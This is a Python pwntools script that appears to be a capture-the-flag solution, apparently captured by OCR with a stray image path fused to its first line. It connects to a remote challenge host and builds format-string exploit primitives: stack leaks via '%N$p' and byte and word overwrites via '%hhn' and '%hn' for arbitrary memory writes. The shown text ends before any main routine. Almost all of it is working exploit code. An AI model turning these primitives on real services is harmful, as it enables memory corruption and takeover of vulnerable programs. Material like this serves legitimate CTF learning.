 conn = remote('challenges.ctfd.io', 30426)

def init():
    conn.recvuntil(b'?', timeout=5).decode()
    conn.sendline(b'-1')
    conn.recvuntil(b')', timeout=5).decode()
    conn.sendline(b'202009')
    conn.recvuntil(b':', timeout=5).decode()

def leak_stack_data_at_offset(offset):
    conn.sendline('%{}$p'.format(offset).encode())
    conn.recvline().decode()
    leaked_value = conn.recvline().decode()[:-1]
    conn.recvuntil(b')', timeout=5)
    conn.sendline(b'202009')
    conn.recvuntil(b':', timeout=5).decode()
    result = 0
    try:
        result = int(leaked_value, 16)
    except ValueError:
        return 0
    return result

# overwrites word (2 bytes) at address of the leaked pointer from a stack
def overwrite_word(offset_to_dereference, word):
    conn.sendline(('%{}x%{}$hn'.format(word, offset_to_dereference)).encode())
    conn.recvline().decode()
    conn.recvuntil(b')', timeout=5).decode()
    conn.sendline(b'202009')
    conn.recvuntil(b':', timeout=5).decode()

# overwrites byte at address of the leaked pointer from a stack
def overwrite_byte(offset_to_dereference, byte):
    conn.sendline(('%{}x%{}$hhn'.format(byte, offset_to_dereference)).encode())
    conn.recvline().decode()
    conn.recvuntil(b')', timeout=5).decode()
    conn.sendline(b'202009')
    conn.recvuntil(b':', timeout=5).decode()

# writes data with arbitrary length byte-by-byte at address pointed by a pointer in "slave offset"
def write_arbitrary_data(master_ptr_offset, slave_ptr_offset, data):
    saved_slave_ptr = leak_stack_data_at_offset(slave_ptr_offset)

    last_word = saved_slave_ptr & 0xffff

    while data != 0:
        byte_to_write = data & 0xff
        data >>= 8
        overwrite_byte(slave_ptr_offset, byte_to_write)
        last_word += 0x1
        overwrite_word(master_ptr_offset, last_word)
